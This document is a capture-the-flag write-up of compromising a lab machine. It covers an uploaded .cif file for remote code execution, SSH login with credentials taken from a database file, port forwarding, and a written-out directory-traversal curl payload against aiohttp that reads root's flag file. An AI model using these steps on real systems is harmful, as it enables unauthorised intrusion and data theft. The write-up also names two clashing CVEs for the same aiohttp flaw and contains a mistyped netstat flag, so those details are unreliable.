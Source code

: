 **Findings**

**1. Nmap Scan**

An Nmap scan identified the following open port and service:

- **Port 5000**: A web service was running.

> ![](media/image1.png){width="4.778989501312336in"
> height="3.6643350831146106in"}
>
> ![](media/image2.png){width="4.768693132108487in"
> height="3.686567147856518in"}

**2. Initial Exploitation**

The web service on port 5000 allowed uploading .cif files. Upon further
research, the service was found to be vulnerable to **CVE-2024-23346**,
enabling **Remote Code Execution (RCE)**.

- **Attack**: Uploaded a malicious .cif file to achieve a reverse shell.

![](media/image3.png){width="3.3028521434820646in"
height="2.53253937007874in"}

![](media/image4.png){width="5.823140857392826in"
height="3.1118963254593175in"}

<https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f>

**3. Gaining SSH Access**

After obtaining a shell, a search of the file system uncovered a
database file named database.b containing credentials for the SSH user
rosa.

- **Credentials Extracted**: Successfully used the credentials to log in
  via SSH:

> ssh <rosa@10.10.11.38>
>
> ![](media/image5.png){width="5.065367454068242in"
> height="3.9154746281714785in"}
>
> ![](media/image6.png){width="5.047004593175853in"
> height="3.9012806211723534in"}

**4. Locating the User Flag**

- Upon gaining SSH access, the **user.txt** flag was located and
  captured.

**5. Local Enumeration**

While enumerating the system, a locally hosted service was identified on
port **8080**.

- The service was not accessible remotely as it was bound to 127.0.0.1.

- **Command Used**:

> netstat --tuln
>
> ![](media/image7.png){width="5.363576115485564in"
> height="4.145985345581802in"}

**6. Port Forwarding**

To access the service on port 8080 remotely, SSH port forwarding was
utilized:

ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38

This exposed the local service to the attacker\'s machine for further
analysis.

**7. Vulnerability Discovery**

To analyze the service, the following command was used to retrieve the
HTTP response headers:

curl -I <http://127.0.0.1:8080>

![](media/image8.png){width="5.649807524059493in"
height="4.367736220472441in"}

The headers revealed the use of **aiohttp**, a Python web framework,
which was an outdated version vulnerable to **CVE-2024-23334**. This
vulnerability allows for remote exploitation under specific conditions.

**1. SSH Tunneling Setup**

- After gaining initial foothold with user rosa through a database
  extraction and SSH credentials:

  - **SSH command used**:

> ssh -L 5001:127.0.0.1:8080 rosa@10.10.11.38

- This forwarded the internal port 8080 on the target to 5001 on the
  attacker\'s local machine for easier interaction.

**2. Accessing the Hidden Service**

- **Validation**: Tested the forwarded port locally with:

> curl -I http://localhost:5001

- **Response**:

> HTTP/1.1 200 OK
>
> Content-Type: text/html; charset=utf-8
>
> Content-Length: 5971
>
> Date: Sun, 17 Nov 2024 20:27:00 GMT
>
> Server: Python/3.9 aiohttp/3.9.1

**3. Vulnerability Analysis**

- The response header revealed the service was powered by aiohttp/3.9.1,
  which is known to have vulnerabilities:

  - **Identified CVE**: CVE-2023-30589

  - **Description**: aiohttp versions prior to 3.9.2 are vulnerable to
    directory traversal attacks, allowing unauthorized access to files
    outside the intended directory.

**4. Exploitation**

- Leveraged the directory traversal vulnerability to access the root.txt
  file:

> curl \--path-as-is
> \"http://localhost:5001/assets/../../../../../root/root.txt\"
